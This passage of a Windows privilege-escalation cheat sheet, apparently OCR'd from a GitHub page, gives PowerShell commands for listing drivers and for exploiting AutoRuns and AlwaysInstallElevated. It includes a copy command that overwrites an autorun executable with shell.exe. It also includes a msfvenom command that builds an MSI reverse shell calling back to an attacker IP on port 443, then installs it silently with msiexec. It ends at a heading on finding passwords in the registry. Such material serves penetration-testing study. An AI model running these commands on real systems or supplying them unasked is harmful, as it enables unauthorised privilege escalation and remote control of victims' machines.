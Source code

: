 ```powershell
mountvol
```

### Device Drivers and Kernel Modules

#### List of drivers and kernel modules

```powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
```

#### Version of loaded driver

```powershell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

### Binaries That AutoElevate (Registry)

#### AutoRuns

> Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges

```powershell
copy /Y shell.exe "C:\Program Files\Autorun Program\program.exe"
```

#### AlwaysInstallElevated

> The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine: HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer and the current user: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer If either of these are missing or disabled, the exploit will not work. MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.

Generate a new reverse shell with msi extension

```powershell
msfvenom -p windows/x64/shell_reverse_tcp lhost=<my-ip> lport=443 -f msi -o shell.msi
```

```powershell
msiexec /quiet /qn /i shell.msi
```

### Passwords

#### Registry

> Registry — “Plenty of programs store configuration options in the Windows Registry. Windows itself sometimes will store passwords in plaintext in the Registry. It is always worth searching the Registry for passwords.”
